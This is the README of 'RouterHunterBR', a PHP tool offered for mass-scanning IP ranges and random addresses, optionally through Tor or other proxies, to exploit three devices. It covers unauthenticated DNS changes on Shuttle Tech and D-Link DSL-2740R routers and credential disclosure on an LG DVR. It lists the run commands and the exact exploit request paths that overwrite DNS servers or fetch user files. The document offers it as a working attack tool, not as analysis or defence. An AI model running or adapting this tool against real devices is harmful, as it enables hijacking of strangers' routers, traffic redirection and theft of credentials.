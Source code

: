 # RouterHunterBR
TOOL - Unauthenticated Remote DNS , Scanner ranger IP.

 * Script exploit developed by INURL - BRAZIL
 * Script Name: SCANNER RouterHunterBR 1.0
 * TIPE: TOOL - Unauthenticated Remote DNS 
 * AUTOR*: Cleiton Pinheiro / NICK: GoogleINURL
 * AUTOR: Jhonathan davi / NICK: Jhoon
 * EMAIL*: inurllbr@gmail.com
 * Blog*: http://blog.inurl.com.br
 * Twitter*: https://twitter.com/googleinurl
 * Fanpage*: https://fb.com/InurlBrasil
 * GIT*: https://github.com/googleinurl
 * PASTEBIN*: http://pastebin.com/u/googleinurl
 * YOUTUBE* https://www.youtube.com/channel/UCFP-WEzs5Ikdqw0HBLImGGA
 * PACKETSTORMSECURITY:* http://packetstormsecurity.com/user/googleinurl/


- Description:
------
  The script explores three vulnerabilities in routers
 * 01 - Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35995/

 * 02 - D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35917/

 * 03 - LG DVR LE6016D / Unauthenticated users/passwords disclosure exploitit

  reference: http://www.exploit-db.com/exploits/36014/

- Execute:
------
```
  Simple search:   php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt

  Set IPS random:  php RouterHunterBR.php --rand --limit-ip 200 --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set source file: php RouterHunterBR.php --file ips.txt --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set proxy:       php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt --proxy 'localhost:8118'
  
  Proxy format:
   --proxy 'localhost:8118'
   --proxy 'socks5://googleinurl@localhost:9050'
   --proxy 'http://admin:12334@172.16.0.90:8080'
  
```

- Dependencies:
------
```
  sudo apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl033
```
- EDITING TO ADD NEW EXPLOITS GETS:
------
```
TO DEFINE MORE EXPLOITS GET:
EX: $params['exploit_model']['model_name'] = 'file_exploit.php';
$params['exploit_model']['model_001'] = '/file001CGI.cgi';
$params['exploit_model']['model_002'] = '/file001php.php';
$params['exploit_model']['model_003'] = '/file001.html';

#DEFINITION OF EXPLOITS
line 92: $params['exploit_model']['Shuttle_Tech_ADSL_Modem_Router_915_WM'] = "/dnscfg.cgi?dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1";
line 93: $params['exploit_model']['D_Link_DSL_2740R'] = "/dns_1?Enable_DNSFollowing=1&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}";
line 94: $params['exploit_model']['LG_DVR_LE6016D'] = "/dvr/wwwroot/user.cgi";

```

